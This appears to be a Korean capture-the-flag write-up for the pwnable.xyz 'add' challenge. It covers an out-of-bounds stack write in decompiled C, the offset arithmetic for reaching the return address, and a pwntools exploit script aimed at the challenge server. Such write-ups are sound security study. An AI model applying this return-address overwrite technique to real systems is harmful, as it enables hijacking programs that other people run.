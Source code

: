 ```yaml
---
title: "[pwnable.xyz]add"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
---
```


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  __int64 v4; // [rsp+8h] [rbp-78h]
  __int64 v5; // [rsp+10h] [rbp-70h]
  __int64 v6; // [rsp+18h] [rbp-68h]
  __int64 v7[11]; // [rsp+20h] [rbp-60h]
  unsigned __int64 v8; // [rsp+78h] [rbp-8h]
 
  v8 = __readfsqword(0x28u);
  setup();
  while ( 1 )
  {
    v4 = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    memset(v7, 0, 80uLL);
    printf("Input: ", argv, v7);
    if ( __isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 )
      break;
    v7[v6] = v4 + v5;
    argv = v7[v6];
    printf("Result: %ld", argv);
  }
  result = 0;
  __readfsqword(40u);
  return result;
}
```

v7에서 OOB가 일어난다. 

v7의 v6 인덱스에 v4+v5한 값을 넣어주는데 여기서 취약점이 터진다. 

v4+v5로 리턴할 위치 잡아주고 v6로 ret에 맞춰주면 된다. 

v7의 위치가 rbp-0x60이니까 v6의 인덱스 값을 rbp+0x8로 ret위치로 맞춰주면 된다.

근데 __int64니까 한 인덱스당 8바이트 크기만큼 가질것이다. 

0x68 / 8 = 13이니까 v6에는 13값을 넣고 v4 + v5를 win()주소로 바꿔주면 된다. (v4+v5는 %d로 입력받아서 10진수로 넣어주면 된다.

```
mov    rdx,QWORD PTR [rbp-0x70]
mov    QWORD PTR [rbp+rax*8-0x60],rd
```

Input : 1094795585(0x4141414141) 0 13 이렇게 넣고 rbp+rax*8-0x60 이후 리턴(rbp+8)의 위치를 보면 잘 들어간걸 알 수 있다.

![](https://user-images.githubusercontent.com/32904385/72206499-07641f00-34d2-11ea-9283-885e107b6bc0.png)

이제 리턴값도 맞췄겠다 리턴을 해주면 되는데 scanf에서 3이 아니면 break로 빠져나가는 걸 이용하면 된다.

```c
if ( __isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6) != 3 ) break;
```

> exploit.py

```python
from pwn import *
 
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30002)
 
p.sendlineafter(': ',str(0x400822) + ' 0  13')
p.sendlineafter(': ','A')
p.interactive()
```

